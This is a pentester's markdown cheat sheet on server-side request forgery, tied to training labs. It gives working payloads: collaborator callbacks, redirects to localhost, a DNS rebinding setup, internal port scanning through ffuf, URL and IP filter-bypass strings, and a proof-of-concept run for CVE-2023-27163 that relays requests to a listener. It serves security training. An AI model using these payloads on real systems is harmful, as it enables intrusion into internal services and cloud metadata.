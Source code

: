 # Server-Side Request Forgery (SSRF)

<div class="row row-cols-lg-2"><div>

#### Common SSRF

[![server_side_attacks](../../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![basic_ssrf](../../../../../_badges/ps-lab/ssrf/basic_ssrf.svg)](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
[![ssrfqi](../../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrf_with_blacklist](../../../../../_badges/ps-lab/ssrf/ssrf_with_blacklist.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
[![ssrf_with_openredirect](../../../../../_badges/ps-lab/ssrf/ssrf_with_openredirect.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
[![ssrf_out_of_band](../../../../../_badges/ps-lab/ssrf/ssrf_out_of_band.svg)](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)
[![surfer](../../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

The most common example of a SSRF is to access a remote server. This may expose internal headers, be exploited for a DoS, or further exploited to map and access internal services.

```text!
GET /?download=https://<burp suite collaborator domain>
```

```text!
Referrer: https://<burp suite collaborator domain>
```

#### SSRF With Redirection

[![modern_web_exploitation_techniques](../../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

While mainly used to bypass filters, we can use HTML or PHP redirections. Python "requests" doesn't follow redirections by default.

```html!
<!-- input: /?download=https://example.com, returns 127.0.0.1 -->
<?php header('Location: http://127.0.0.1/'); ?>
```

#### DNS Rebinding

[![modern_web_exploitation_techniques](../../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

While mainly used to bypass filters, we can rebind a domain to point to another domain or IP dynamically <small>(we abuse of a low TTL)</small>. 

* [rebinder](https://lock.cmpxchg8b.com/rebinder.html) <small>(website, TTL=10)</small>
* [DNSrebinder](https://github.com/mogwailabs/DNSrebinder) <small>(0.1k ⭐)</small>
* [FakeDns](https://github.com/Crypt0s/FakeDns) <small>(0.6k ⭐, TTL>=0)</small>
* [singularity](https://github.com/nccgroup/singularity) <small>(1.1k ⭐, web client and GOLang server)</small>.
* ``s-1.1.1.1-127.0.0.1-<unique_seed>-fs-e.d.rebind.it``

<details class="details-n">
<summary>Example Scenario</summary>

A webserver makes two SSRF calls, the first to check if resource is valid, the second to process the resource. 

We will create a domain called `rebinding.example.com` record pointing to a DNS server that we own `ns1337.example.com YOUR_SERVER_IP` on which the script will run.

```
rebinding IN NS ns1337.example.com.
ns1337 IN A YOUR_SERVER_IP
```

Disable any service using port 53. Install [FakeDns](https://github.com/Crypt0s/FakeDns).

```shell!
$ DEST="$HOME/tools/fakedns"
$ git clone -b "master" https://github.com/Crypt0s/FakeDns.git $DEST
$ ln -s $DEST/fakedns.py $HOME/.local/bin/fakedns
```

For our use case, to rotate the IP between every request:

```shell!
$ cat test.conf
A rebinding.example.com 1.1.1.1,127.0.0.1
# alternative: A rebinding.example.com 1.1.1.1 0%127.0.0.1
$ fakedns -c test.conf --rebind # Run The DNS Server
```

* Input: `http://rebinding.example.com/admin`
</details>

</div><div>

#### Exploit other protocols 💰

[![server_side_attacks](../../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

A few protocols aside from HTTPS may yield results.

* `ftp://` to connect to a FTP server
* `file://some/file/on/the/target` when supported ([files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md))

<br>

#### Access Internal Services 🗺️

[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![surfer](../../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

You may be able to query internal IPs or internal websites. Aside from localhost, make sure to test interesting IPs in cloud environments.

<br>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div></div>

<hr class="sep-both">

## SSRF Filter Bypass

<div class="row row-cols-lg-2"><div>

#### SSRF Filter Bypass — Starting with

[![modern_web_exploitation_techniques](../../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![server_side_attacks](../../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

A filtering "starting with" without a trailing slash can be bypassed:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
* `https://example.com#malicious.website`
* `https://example.com?malicious.website`
* `https://example.com/&malicious.website`
* `https://example.com/;malicious.website`

🛡️ Add a trailing slash to any starting with rule.

<br>

#### SSRF Filter Bypass — IP Filtering

[![modern_web_exploitation_techniques](../../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfqi](../../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

There are multiple representations of `127.0.0.1` or `169.254.169.254`.

*  `0`, `00`, `000[...]0`, `0.0.0.0` (any IP, which may be localhost)
* `2130706433` (decimal), `017700000001` (octal), `0x7f000001` (hex)
* `127.1` (IP shortening), `127.00[...]00.1` (IP prolonging)
* `0x7f.0x0.0x0.0x1`, `0177.0.0.01`, `0177.0.0.0x1`
* `::1`, `::ffff:127.0.0.1` (IPV6)

Common domains for convenience: [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), [firefox.fr](http://firefox.fr/).

For all IPs, use: [rebinder](https://lock.cmpxchg8b.com/rebinder.html) with two times the same IP.
</div><div>

#### SSRF Filter Bypass — HTTP Parser Confusion 🐐

In Python, the `requests` module uses a old version of URLLIB. The following URL `"https://example.com\@@127.0.0.1/../flag"` is interpreted differently between `requests` and `urllib` ([src](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)):

* `host=127.0.0.1\@@example.com path=/../flag` with URLLIB3+
* `host=127.0.0.1 path=/@@example.com/../flag` with URLLIB3

With this trick, you can bypass this dummy code:

```py
URL = "https://127.0.0.1\@@example.com/../flag"
hostname = urllib.parse.urlparse(URL)
# Will verify 127.0.0.1\@@example.com
if hardened_check_on_hostname(hostname):
    raise Exception()
# Will fetch 127.0.0.1/flag
print(requests.get(URL).text)
```

#### SSRF Filter Bypass — Open Redirect or XSS

[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrf_with_openredirect](../../../../../_badges/ps-lab/ssrf/ssrf_with_openredirect.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

We may leverage a vulnerability such as a XSS or an Open Redirect.

#### SSRF Filter Bypass — Double URL Encoding

[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try double URL-encoding characters, targeting URLs that are decoded multiple times, mostly due to multiple manipulations.

#### SSRF Filter Bypass — Case Toggling

[![ssrf](../../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try toggling the case for case-insensitive hosts.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # sent to listener URL
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:fport 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```py
ip = socket.gethostbyname("example.com") # extracted from input
ip = ipaddress.ip_address(ip)
if ip in ipaddress.ip_network('127.0.0.0/8'): # check others!!!
    return False
if ipaddress.ip_address(ip).is_loopback:
    return False # only check if 127.0.0.1
```
</div><div>
</div></div>
